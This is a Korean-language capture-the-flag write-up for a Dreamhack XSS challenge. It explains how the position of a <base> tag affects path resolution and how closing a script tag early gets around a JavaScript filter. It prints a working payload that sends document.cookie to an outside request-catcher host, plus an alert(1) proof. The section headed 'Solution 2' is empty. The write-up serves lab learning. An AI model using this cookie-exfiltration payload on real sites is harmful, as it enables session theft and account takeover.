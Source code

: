 ## Solution 1
<hr style="border-top: 1px solid;"><br>

escapeshellcmd, escapeshellargs
: <a href="https://learn.dreamhack.io/296#7" target="_blank">learn.dreamhack.io/296#7</a>

<br>

처음엔 CSP Bypass Advanced 문제처럼 base 태그를 이용해서 리플에서 서버를 열은 뒤 리플 서버로 경로를 변경하고 ```filter.js```를 불러오려 했다.

하지만 확인해보니 리플에 있는 filter.js 코드가 불려와지지 않았다. 그래서 경로를 ```/static/js/filter.js```로 하니 서버에서는 열리는데 그래도 안됬다.

<br>

찾아보니 ```<base>``` 태그는 ```<head>```에 있어야 한다고 한다. 
: ```it must be inside the <head> element.```
: <a href="https://www.w3schools.com/tags/tag_base.asp" target="_blank">www.w3schools.com/tags/tag_base.asp</a>

<br>

왜냐하면 ```<base>``` 태그의 위치에 따라 경로 변경이 적용되는게 다르기 때문이다.

head 태그는 맨 위에 있기 때문에 head 태그 안에서 그리고 head 안에서도 맨 위에서 사용되어야 전체적인 경로가 변경되는 것이다. 

**중간에서 사용되면 base 태그보다 위에서 불려온 스크립트나 스타일시트에서 사용된 경로의 base url 경로는 변경되지 않고 base 태그보다 아래에서 불려오는 것부터만 적용된다.**

그래서 base 태그를 이용해서 했을 때 ```<script src=filter.js></script>``` 코드가 base 태그보다 위에 있었기 때문에 적용되지 않아서 CSP Bypass Advanced 문제처럼 풀리지 않았던 것이다.

<br><br>

결국 강의를 보니.. filter.js가 로드되는 걸 우회해야 한다고 한다. 로드 되지 않으면 필터링이 안되기 때문이다.

그래서 base 태그로 우회한 다음 스크립트 태그를 이용할 수 있으므로 아래와 같이 하니 요청이 보내졌다.

payload
: ```?page=vuln&param=<base href="test">;</script><script>location.href="https://xgezyqb.request.dreamhack.games?cookie="%2bdocument.cookie</script>```

<br>

공격 방식은 강의에서는 좀 달랐다. DOM XSS라서 script 태그를 사용할 수 없다고 한다. 문제 풀이 방식에 두 가지가 있는 것 같다. 

위의 풀이는 **결국엔 입력 값과 필터링 단어들을 비교하기 전에 ```</script>``` 태그를 사용함으로써 vuln.php에 있는 필터링 코드를 우회할 수 있다.**

따라서 입력을 ```?page=vuln&param=</script><script>alert(1)</script>```라고 해주면 alert가 실행된다.

<br>

위의 방식은 문제에서 제대로 처리를 안해준 것 같다.  

아래는 RPO 취약점을 이용한 풀이로 강의에 있는 내용이다. 이렇게 풀어야 한다.

<br><br>
<hr style="border: 2px solid;">
<br><br>

## Solution 2
<hr style="border-top: 1px solid;"><br>
